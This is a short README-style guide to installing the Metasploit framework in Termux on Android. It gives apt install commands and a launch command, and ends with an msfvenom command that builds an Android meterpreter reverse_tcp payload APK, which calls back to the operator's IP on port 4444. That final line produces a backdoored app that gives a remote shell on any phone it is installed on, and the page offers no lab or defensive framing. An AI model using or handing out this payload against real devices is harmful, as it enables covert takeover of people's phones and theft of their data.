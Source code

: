 # Metasploit



# INSTALLATION In TERMUX


# Commands
```
apt update && apt upgrade
apt install unstable-repo
apt install metasploit
```

# Single Line Command
```
apt update && apt upgrade && apt install unstable-repo && apt install metasploit
```

# For Fire up
```
msfconsole
```

# For creating payload
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=(your IP) LPORT=4444 R> payload.apk
```
